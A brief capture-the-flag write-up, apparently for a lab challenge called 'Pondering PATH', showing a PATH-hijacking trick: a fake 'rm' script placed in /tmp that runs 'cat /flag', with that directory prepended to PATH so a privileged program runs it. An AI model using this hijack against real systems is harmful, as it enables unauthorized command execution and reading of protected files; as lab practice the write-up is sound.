 # Pondering PATH

This is so funny. remember the stuff I did in hello hackers ? It's the same thing.

It really dosent need a writup per line - alll of them are variations on:

```bash
mkdir -p /tmp/mybin
echo '#!/bin/bash' > /tmp/mybin/rm
echo 'cat /flag' >> /tmp/mybin/rm
chmod +x /tmp/mybin/rm
export PATH="/tmp/mybin:$PATH"
```

and running the command.

where rm is the non builtin command that you wanna attack, and cat flag part to run whatever you wanna.
